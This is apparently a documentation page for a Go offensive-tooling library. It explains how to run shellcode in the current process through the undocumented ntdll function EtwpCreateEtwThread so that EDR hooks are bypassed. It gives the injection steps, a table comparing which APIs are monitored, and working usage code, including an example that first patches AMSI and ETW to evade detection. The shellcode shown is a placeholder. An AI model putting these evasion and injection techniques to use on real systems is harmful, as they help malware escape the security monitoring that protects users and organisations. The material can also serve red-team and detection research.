

# EtwpCreateEtwThread Injection

> **MITRE ATT&CK:** T1055 -- Process Injection | **Detection:** Low -- internal ntdll function, rarely monitored by EDR

## Primer

Imagine a building has a main entrance guarded by security. Everyone who walks through the front door is checked and logged. But deep inside the building, there is a service elevator used only by maintenance staff. Security never watches it because it was never meant for visitors.

`EtwpCreateEtwThread` is that service elevator. It is an internal, undocumented function inside `ntdll.dll` that Windows uses internally for Event Tracing for Windows (ETW) operations. It creates a thread just like `CreateThread` or `NtCreateThreadEx`, but because it is an internal ETW mechanism, most EDR products do not hook or monitor it. By calling it directly with a pointer to our shellcode, we get a thread running our code with almost no security scrutiny.

This technique is **self-injection only** -- it runs shellcode in the current process, not in a remote target.

## How It Works



**Step-by-step:**

1. **VirtualAlloc(PAGE_READWRITE)** -- Allocate writable memory in the current process.
2. **memcpy** -- Copy the shellcode into the allocated region.
3. **VirtualProtect(PAGE_EXECUTE_READ)** -- Flip permissions to executable (avoids RWX pages that EDR flags).
4. **EtwpCreateEtwThread(addr, 0)** -- Call the internal ntdll function. It creates a new thread starting at `addr`. The second parameter is a context pointer (unused, set to 0).

The function returns a thread HANDLE on success (non-zero), or 0 on failure. Note: unlike `NtCreateThreadEx`, the return value is a HANDLE, not an NTSTATUS.

## Why This Is Stealthy

| Aspect | CreateThread | NtCreateThreadEx | EtwpCreateEtwThread |
|--------|-------------|-----------------|---------------------|
| Hooked by EDR | Always | Usually | Rarely |
| Documented API | Yes | Semi-documented | Internal/undocumented |
| In import table | Common | Sometimes | Never |
| Thread creation syscall | Same | Same | Same |

The underlying syscall is the same (`NtCreateThreadEx`), but EDR hooks are placed on the *userland wrappers*, not the kernel. By calling an internal wrapper that EDR vendors don't instrument, we bypass those hooks.

**Caveat:** Some advanced EDRs perform kernel-level ETW thread monitoring or syscall tracing, which would catch this. The technique is best combined with other evasion (AMSI/ETW patching, unhooking).

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    injector, err := inject.Build().
        Method(inject.MethodEtwpCreateEtwThread).
        Create()
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Patch AMSI + ETW before injection.
    if errs := evasion.ApplyAll(preset.Minimal(), nil); errs != nil {
        log.Printf("evasion errors: %v", errs)
    }

    // 2. Inject via EtwpCreateEtwThread with fallback.
    injector, err := inject.Build().
        Method(inject.MethodEtwpCreateEtwThread).
        WithFallback().
        Create()
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | High -- internal ntdll function, not hooked by most EDR products. |
| Scope | Self-injection only (current process). Cannot inject into remote processes. |
| Compatibility | Windows 7+ (EtwpCreateEtwThread has been present since Vista). |
| Return value | Returns HANDLE (not NTSTATUS) -- non-zero = success, 0 = failure. |
| Caller routing | Partial -- memory operations (VirtualAlloc/VirtualProtect) can route through Caller, but EtwpCreateEtwThread itself must use direct proc call because its return convention differs from NTSTATUS. |
| Fallback | Falls back to CreateThread, then CreateFiber if EtwpCreateEtwThread fails. |

## API Reference

```go
// Method constant
const MethodEtwpCreateEtwThread Method = "etwthr"

// Builder pattern
injector, err := inject.Build().
    Method(inject.MethodEtwpCreateEtwThread).
    Create()

// With syscall routing for memory operations
injector, err := inject.Build().
    Method(inject.MethodEtwpCreateEtwThread).
    IndirectSyscalls().
    Create()

// Config pattern
cfg := &inject.WindowsConfig{
    Config: inject.Config{
        Method: inject.MethodEtwpCreateEtwThread,
    },
}
injector, err := inject.NewWindowsInjector(cfg)
```
